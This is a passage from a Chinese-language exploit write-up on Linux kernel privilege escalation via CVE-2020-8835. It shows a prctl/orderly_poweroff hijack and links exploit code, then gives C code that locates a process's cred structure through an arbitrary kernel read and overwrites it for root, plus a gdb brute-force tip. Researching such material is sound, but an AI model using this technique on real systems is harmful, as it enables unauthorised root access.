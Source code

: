 再次使用gdb下断,查看$rb0x18,发现地址已经修改为orderly_poweroff
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704231103-936be658-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704231103-936be658-be08-1.png)
同时查看全局变量,已经修改为我们想要的结果
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704231147-ae2ac7e8-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704231147-ae2ac7e8-be08-1.png)
此时查看flag读写权限,发现该文件的权限已通过root权限进行了修改
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704231213-bd7c0298-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704231213-bd7c0298-be08-1.png)
至此提权效果演示完毕,完整的代码和运行环境见
https://github.com/snappyJack/Rick_write_exp_CVE-2020-8835/tree/master/hijack_prctl

### 根据comm查找cred结构

相对于前两种”曲线”式的提权,查找cred结构进行提权显得比较直观,其原理就是在内核空间查找特定进程的cred结构体,

首先我们对comm字段进行设置

```
char target[16];

strcpy(target,"aaaaaaaa");
prctl(PR_SET_NAME,target);              //通过prctl设置字符串为aaaaaaaa
```

通过爆破0xffff880000000000~0xffffc80000000000的地址,查找该字段,从而确定该线程的cred结构体,再利用任意地址读写,修改cred结构体,进行权限的提升.

我这里将代码稍作修改,查看comm字符串是否改变

```
uint64_t task_struct, cred, current_task, comm;
    uint64_t per_cpu_offset = read_8byte(0xffffffff822c26c0);
    printf("per_cpu_offset: 0x%lx\n", per_cpu_offset);
    for(int i = 0; ; i++){
        current_task = read_8byte(per_cpu_offset + 0x17d00);
        comm = read_8byte(current_task + 0x648);
        if(comm == 0x6161616161616161){                     //通过prctl设置的字符串判断位置
            printf("current_task: 0x%lx\n", current_task);
            task_struct = current_task;
            printf("[+] comm: 0x%lx\n", comm); // get comm to check
            hextostr(comm);
            break;
        }
    }
```

运行代码,发现comm地址已经成功被我们改写,之后再通过偏移找到cred结构,将其修改进行权限提升
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200705004146-40280e06-be15-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200705004146-40280e06-be15-1.png)

##### 不成熟的小技巧

这里出现了一个问题,就是在任意地址读函数最终是执行bpf_map_get_info_by_fd()进行任意地址读取
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704231343-f3309cdc-be08-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704231343-f3309cdc-be08-1.png)
而爆破的过程中势必会运行到内核地址未分配的情况,每当程序运行到这里,就会造成’unable to handle page fault’,引起内核crash.程序无法继续.这里有一个小技巧:
我们qemu中的程序由于内核crash无法运行,但是这对于宿主机却并不影响,我们可以使用gdb脚本的方式,将爆破的工作交给gdb,gdb将输出的结果进行保存,待我们将保存的结果分析,得出一个更加精准的目标范围时,修改程序爆破范围,避免其出现crash的情况.这里我们以爆破vdso地址为例:
